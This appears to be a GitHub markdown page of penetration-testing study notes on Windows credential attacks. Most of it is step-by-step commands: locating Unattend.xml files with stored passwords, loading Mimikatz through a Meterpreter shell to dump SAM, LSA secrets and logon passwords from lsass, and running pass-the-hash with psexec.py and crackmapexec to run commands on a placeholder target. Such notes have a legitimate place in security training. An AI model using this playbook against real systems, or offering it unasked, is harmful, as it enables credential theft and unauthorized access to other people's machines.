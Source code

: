 
<h4>Windows Password Hashes</h4>
>The windows OS stores hashed user account passwords locally in the SAM(Security Accounts Manager) database

>Elevated/Administrative privileges are required in order to access and interact with the LSASS process

In modern version of windows the SAM database is encrypted with a syskey


<h4>Searching for passwords in windows configuration files</h4>

This is typically done through the use of the "Unattended Windows Setup utility", which is used to automate the mass installation/deployment of Windows on Systems

The unattended windows setup utility will typically utilize one of the following configuration files that contain user account and  system configuration information

1. "C:\Windows\Panther\Unattend.xml"
2. "C:\Windows\Panther\Autounattend.xml"

>As a security precaution, the passwords stored in the unattended windows setup configuration file may be encoded in base64

To search for the xml file
```
search -f Unattend.xml
```
the file is located in
```
C:\Windows\Panther
```
Download it to your machine
```
Download Unattend.xml
```
From here you can get a username and password. You can go ahead and use psexec to connect to the creds you found
```
psexec.py Administrator@10.10.10.10   //This requires a password
```



<h4>Dumping Hashes with Mimikatz</h4>

Mimikatz is a windows post exploitation tool. It can be used to extract hashes from "lsass.exe" process memory where hashes are cached

If you are on a meterpreter shell, you can utilize the mimikatz extension "kiwi".

>Mimikatz will require elevated privileges in order to run correctly

Migrate to the lsass.exe process
```
pgrep lsass
migrate 777
```
To use the kiwi extension
```
load kiwi
```
You can use the help menu to check for commands after loading the extension
```
help
```
To use the mimikatz executable, create a temp dir
```
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```
open a shell session
```
shell
```
execute the mimikatz executale
```
mimikatz.exe
```
Check if you have appropriate privileges
```
Privilege::debug //privilege '20' ok means you've got privileges
```
To dump for the sam database
```
lsadump::sam
```
To dump lsa secrte
```
lsadump::secret
```
To display logon passwords
```
sekurlsa::logonpasswords
```



<h4>Pass The Hash Attack</h4>
This is an exploitation technique that involved capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately

>Metasploit module PsEcec
>Crackmapexec

Those 2 tools above can be used for this attack.

So you can reconnnect to the machine with the user's ntlm hash
```
crackmapexec smb 10.10.10.10 -u (username) -H "(NTLM hash)"
```
If this works, go ahead and execute a few command on it
```
crackmapexec smb 10.10.10.10 -u (username) -H "(NTLM hash)" -x "ipconfig"
```